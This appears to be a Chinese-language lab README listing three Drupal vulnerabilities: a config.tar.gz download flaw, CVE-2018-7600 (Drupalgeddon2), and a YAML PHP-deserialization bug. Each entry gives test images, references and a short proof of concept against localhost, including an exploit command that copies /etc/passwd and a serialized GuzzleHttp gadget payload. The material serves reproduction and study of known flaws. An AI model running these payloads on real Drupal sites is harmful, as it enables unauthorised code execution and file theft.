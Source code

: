 ## config.tar.gz 下载漏洞

测试镜像

* src/drupal/8.1.9/

参考链接

* [Drupal 8 配置文件下载漏洞分析](http://blog.knownsec.com/2016/09/drupal-8-config-download/)

Poc

```
# 后台导出配置后，执行这个
wget 'http://127.0.0.1/system/temporary/?file=config.tar.gz' -O config.tar.gz
```

## CVE-2018-7600 - post_render/call_user_func 命令执行漏洞

测试镜像

* src/drupal/8.3.3/

参考链接

* [dreadlocked/Drupalgeddon2 - Exploit for Drupalgeddon 2 - CVE-2018-7600](https://github.com/dreadlocked/Drupalgeddon2)
* [Uncovering drupalgeddon](https://research.checkpoint.com/uncovering-drupalgeddon-2/)
* [Drupal core - Highly critical - Remote Code Execution - SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)

Poc

```
python2.7 CVE-2018-7600.py http://127.0.0.1/ 'cp /etc/passwd /tmp'
```

## yaml.decode_php 反序列化漏洞

测试镜像

* src/drupal/8.3.3/

参考链接

* [CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)

影响版本

* <= 8.3.3

Poc

```
打开 /admin/config/development/configuration/single/import

导入 Single configuration

!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```




